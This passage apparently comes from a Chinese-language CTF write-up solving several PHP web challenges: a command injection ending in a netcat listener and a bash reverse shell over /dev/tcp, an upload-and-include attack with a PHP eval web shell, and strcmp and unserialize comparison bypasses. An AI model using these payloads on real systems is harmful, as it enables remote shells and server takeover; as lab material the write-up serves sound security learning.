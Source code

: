 ```bash
nc -lvvp port
```
然后执行
```bash
|bash -i >& /dev/tcp/ip/port 0>&1
```
flag：SKCTF{Uni0n_@nd_c0mM4nD_exEc}
### W2-web2
首先看源代码有个upload.php,但是只能上传jpg，gif，png的格式，url上的file能包含文件进来，但是禁止了php伪协议所以不能读取文件，思路是上传php马然后file包含进来，但是`<!--?php`和`?-->`被过滤了
![4](/img/2019-04-19/4.png)
payload如下
```php
<script language="PHP">
@eval($_POST['a']);
</script>
```
然后菜刀连上去即可拿到flag：CTF{uP104D_1nclud3_426fh8_is_Fun}
### W2-web3
```php
include("flag.php");
if (isset($_GET['a'])) { 
 if (strcmp($_GET['a'], $flag) == 0) 
 die('Flag: '.$flag); 
 else 
print 'close to flag';}
else{
 show_source(__FILE__);
}
?>
```
strcmp的问题，看这里–>[传送门](http://www.am0s.com/ctf/128.html),payload如下
```
a[]=1
```
flag:CTF{php_trcmp_problems}
### W2-web4
```php
show_source(__FILE__);
$username= "this_is_secret"; 
$password= "this_is_not_known_to_you"; 
include("flag.php");//here I changed those two 
$info = isset($_GET['info'])? $_GET['info']: "" ;
$data_unserialize = unserialize($info);
if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){
 echo $flag;
}else{
 echo "username or password error!";
}
?>
```
构造数组绕过
```
Array
```
